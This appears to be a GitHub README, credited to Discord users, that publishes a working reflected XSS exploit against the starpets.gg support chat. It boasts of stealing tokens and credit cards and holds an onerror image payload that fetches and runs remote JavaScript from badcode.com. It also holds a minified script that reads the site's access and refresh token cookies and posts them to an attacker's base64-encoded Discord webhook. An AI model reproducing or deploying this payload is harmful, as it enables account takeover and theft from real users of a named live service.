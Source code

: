 EXPLOIT/CODE FOUND AND MADE BY @Itemset on discord 
TEST BY LUKE AND NTXING

### website: https://starpets.gg
#### Vulnibity: XSS Reflected 

**What can this exploit do?0**

- lets attackers steal access tokens
- inject JS in to page
- steal creditcards when entered
- spoof website

**Where?**
In support chat. Victim will send the payload in the chat and JS will be injected

**xss injection**
```html
<img src="" onerror="YOUR SCRIPT" />
```

**Proof of work**
```html
<img src="" onerror="fetch('https://badcode.com/script.js').then(response => response.text()).then(script => new Function(script)());"/>
```
the following shows how to inject a remote javascript file on the website.

**Proof of concept**
using the proof of work if the attacker wants to steal a starpets account he must use the following JS script to be loaded 

```js
function getCookiesMap(e){return e.split(";").map(function(e){return e.trim().split("=")}).reduce(function(e,n){return e[n[0]]=n[1],e},{})}function tokens(){let e=getCookiesMap(document.cookie);if(!e.hasOwnProperty("access-token")||!e.hasOwnProperty("refresh-token"))return[void 0,void 0];let n=e["access-token"],t=e["refresh-token"];return{accessToken:n,refreshToken:t}}async function leet(e,n,t){try{await fetch(e,{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({content:null,embeds:[{title:"1337 made by NTX, Camel and Luke!",color:0,fields:[{name:"Access Token",value:"```\n"+n+"\n```"},{name:"Refresh Token",value:"```\n"+t+"\n```"}]}],attachments:[]})})}catch(o){console.error("Error sending message:",o)}}const{accessToken:e,refreshToken:n}=tokens();leet(atob("YOUR BASE 64 DISCORD WEBHOOK"),e,n);
```

